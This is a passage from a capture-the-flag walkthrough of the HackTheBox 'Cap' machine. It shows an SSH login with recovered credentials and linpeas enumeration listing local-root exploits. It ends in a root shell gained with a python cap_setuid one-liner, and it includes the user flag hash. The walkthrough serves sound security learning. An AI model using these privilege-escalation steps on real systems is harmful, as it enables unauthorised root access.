It's working! And I downloaded `user.txt` file.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat user.txt
20e8b3a1a5a6b53974b1043b078ba7e7
```

### Try the found credential on ssh

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Dec 19 11:27:41 UTC 2024

  System load:           0.08
  Usage of /:            36.7% of 8.73GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:1052

  => There are 4 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7

nathan@cap:~$ whoami
nathan
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

I got a `nathan`'s shell!

# Shell as `root`

### Enumeration

Let's run `linpeas` to enumerate the host system.

```bash
nathan@cap:~$ ./linpeas_linux_amd64

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation£sudo-version                                                                       
Sudo version 1.8.31  


╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                         
[+] [CVE-2022-2586] nft_object UAF                                         

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154


╔══════════╣ Last time logon each user
Username         Port     From             Latest                          
root             tty1                      Fri Jul 23 13:24:55 +0000 2021
nathan           pts/0    10.10.14.14      Fri Dec 20 06:36:20 +0000 2024


╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation£capabilities                                                                       
══╣ Current shell capabilities                                             
CapInh:  0x0000000000000000=                                               
CapPrm:  0x0000000000000000=
CapEff:  0x0000000000000000=
CapBnd:  0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
CapAmb:  0x0000000000000000=

╚ Parent process capabilities
CapInh:  0x0000000000000000=                                               
CapPrm:  0x0000000000000000=
CapEff:  0x0000000000000000=
CapBnd:  0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
CapAmb:  0x0000000000000000=


Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep                  
```

The result says that `/usr/bin/python3.8` has `cap_setuid`, `cap_net_bind_service+eip` capabilities. Which is marked as critical.

Here I can find an useful reference explaining how to exploit this;
https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/

This illustrate a method to exploit `cap_setuid` capability with `python` example;
```bash
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Also, `GTFOBins` includes methodology how to exploit with `python`'s `cap_setuid` as follows;



So, let's try this.

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
£ 
£ id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
£ whoami
root
```

I got root!